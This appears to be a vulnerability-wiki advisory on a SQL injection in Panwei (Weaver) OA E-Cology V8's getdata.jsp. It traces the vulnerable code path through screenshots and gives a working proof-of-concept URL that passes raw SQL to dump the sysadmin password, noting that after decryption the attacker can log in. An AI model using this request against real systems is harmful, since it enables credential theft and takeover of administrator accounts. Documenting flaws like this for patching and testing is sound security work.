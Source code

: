 # Panwei OA E-Cology getdata.jsp SQL injection vulnerability

## Vulnerability Description

Panwei OA V8 has SQL injection vulnerability, and attackers can obtain administrator and server permissions through vulnerabilities.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA V8</span>

## Network surveying and mapping



## Vulnerability reappears

In getdata.jsp, directly hand over the request object to

`weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :` 

Method processing



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-17.png)



In the getData method, determine whether the cmd parameter in the request is empty. If it is not empty, call the proc method



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-18.png)





In the proc method, judge the cmd parameter value. When the cmd value is equal to getSelectAllId, the two parameter values ​​of sql and type are obtained from the request, and the parameters are passed into the getSelectAllIds(sql, type) method

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-19.png)





POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

Query the password field in the HrmResourceManager table, and the page returns the value of the first record of the database (sysadmin user password)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-20.png)



After decryption, you can log in to the system

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-21.png)